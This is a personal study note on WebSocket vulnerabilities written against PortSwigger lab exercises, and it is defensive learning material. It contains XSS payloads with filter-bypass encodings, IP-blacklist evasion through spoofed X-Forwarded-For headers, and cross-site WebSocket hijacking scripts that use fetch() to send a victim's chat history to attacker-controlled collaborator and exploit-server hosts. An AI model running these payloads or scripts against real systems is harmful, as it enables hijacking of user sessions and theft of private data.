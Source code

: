 #WebSockets #Completed 

![[WebSockets.jpg]]
# Recon

WebSockets are initiated over HTTP and provide long-lived connections with asynchronous communication bi-directionally. They're used for performing user actions and transmitting sensitive info.

To find WebSocket vulnerabilities, it involves manipulating them in ways the app does not expect by:

- Intercepting and modifying WebSocket messages
- Replay and generate new WebSocket messages
- Manipulate WebSocket connections

Burp Proxy has a WebSockets history tab that includes WebSockets messages. Individual messages can be replayed via Burp Repeater by sending a WebSocket message to Repeater. There are situations where it may be necessary to manipulate the handshake itself such as needing to establish a new connection, or tokens/other data may need updated.

Repeater has a pencil icon that attaches you to an existing connected WebSocket, clone one or reconnect to a disconnected one.

Look for any web security vulnerability that can arise in normal apps such as:

- User-supplied input transmitted to the server processed in unsafe ways (SQLi, XXE)
- Blind vulnerabilities reached via WebSockets may only be detectable using OAST techniques
- If attacker-controlled data is transmitted via WebSockets to other users, it may lead to XSS
# Manipulating WebSocket Messages

Suppose an app uses sockets to send chat messages. When typing a message, a WebSocket message is sent to the server:

```json
{"message":"Hello Carlos"}
```

The contents are transmitted to another chat user via WebSockets and rendered in browser:

```html
<td>Hello Carlos</td>
```

If no other input processing or defenses are in place, a PoC XSS attack can be submitted via the following:

```json
{"message":"<img src=1 onerror='alert(1)'>"}
```

Try to determine if any filtering takes place such as backslash escaping, HTML encoding angle brackets or other forms of encoding. Bypasses may be available. If forward slashes - `/` - are escaped, try using XSS payloads that do not require one such as the img above.

For example, try sending the `<` as a starter alongside other characters such as `>` or keywords like `alert`.  If encoded on the page, try intercepting it and resending the request with the decoded payload if it works.
# Manipulating Handshake

These vulnerabilities involve design flaws like:

- Misplaced trust in HTTP headers to perform security decisions - i.e. `X-Forwarded-For`
- Flaws in session handling since the session context is generally determine by the session context of the handshake
- Attack surface introduced by custom HTTP headers

If WebSockets block your IP after sending a malicious alert, attempt to add a match and replace rule for `X-Forwarded-For` and session handling rules along with Request Randomizer to send a random value every request and potentially bypass the blacklist.

Try to analyse what triggers the blacklisting - keywords, special characters, full payloads, etc. Try various different payloads and see what works, including:

```html
<img src=1 oNeRrOr=alert`1`>
```

```html
<img src=0 oNeRrOr=window['ale'+'rt'](window['doc'+'ument']['dom'+'ain'])>
```

Encoding may also be required on the keywords that trigger the alert:

```html
<img src=0 oNeRrOr=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
```

```html
<img src=x OnErRoR=&#97;&#108;&#101;&#114;&#116;(1)>"}
```
# Cross-Site WebSocket Hijacking

Vulnerabilities arise when an attacker makes a cross-domain WebSocket connection from a site that the attacker controls - known as cross-site WebSocket hijacking attack and involves exploiting CSRF on a handshake. 

It arises when the handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. Attackers create a web page on a domain which establishes a cross-site WebSocket connection. The app handles the connection in the context of the victim's user session.

Attacker sends arbitrary messages to the server via the connection and read the contents of messages that are received back from the server - attacker gains two-way interaction with the compromised app.

First, review the handshakes and determine if they are vulnerable. For normal conditions, you need to find a message that relies solely on cookies for session handling and does not use any tokens or unpredictable values such as:

```html
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If vulnerable, then a cross-site request is performed to open a WebSocket and can do things like:

- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user
- Sending WebSocket messages to retrieve sensitive data
- Sometimes, just waiting for incoming messages to arrive containing sensitive data

Try interacting with the bot and refreshing the page. If the chat history persists, it likely uses a session cookie to track the live chats. Check if this session token has the SameSite flag. Attempt to resend the READY message  and check if the chat history returns. 

Also check that the /chat endpoint has no unpredictable token values. Launch an attack:

1. Create an exploit page that contains a payload
2. JS will open the WebSocket, send a READY message, grab the chat history and send it back to us
3. Send link to victim
4. Victim opens connection and session cookie is sent along
5. Chat history sent to web server

As an example, the payload below can be used to retrieve sensitive information from the application that belongs to another user. When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received. 

When the messages are received from the server, they will be sent to attacker's server. This is possible as cross-site WebSocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.

Host the following in the exploit server to send a POST request to Collaborator:

```html
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Or the following to send a GET request with base64 encoded data to the exploit server:

```html
<script>
var ws = new WebSocket(
  "wss://0a29006304c9f2fa838619a4002d0016.web-security-academy.net/chat"
);

ws.onopen = function() {
  ws.send("READY");
};

ws.onmessage = function (event) {
  fetch(
    "https://exploit-0a1c004e04fcf26c83b0185d016700dc.exploit-server.net/exploit?message=" +
      btoa(event.data)
  );
};
</script>
```

- Opens a new WebSocket with specified URL
- When opened, run a function that sends the READY message
- Receive back info from the server and use fetch to send request to attacker endpoint

An example exploitation payload - although this does not work in the labs, this is something that can be done to inject XSS through web socket messages to attack other users. The "message" parameter in the lab was used to communicate/send messages to the server through web socket.

```html
<script>
    var ws = new WebSocket('wss://0a97008101b00a8.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("{\"message\":\"<img src=x onerror=alert(1)>\"}");
    };
    ws.onmessage = function(event) {
        fetch('https://a8jc1jg75.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

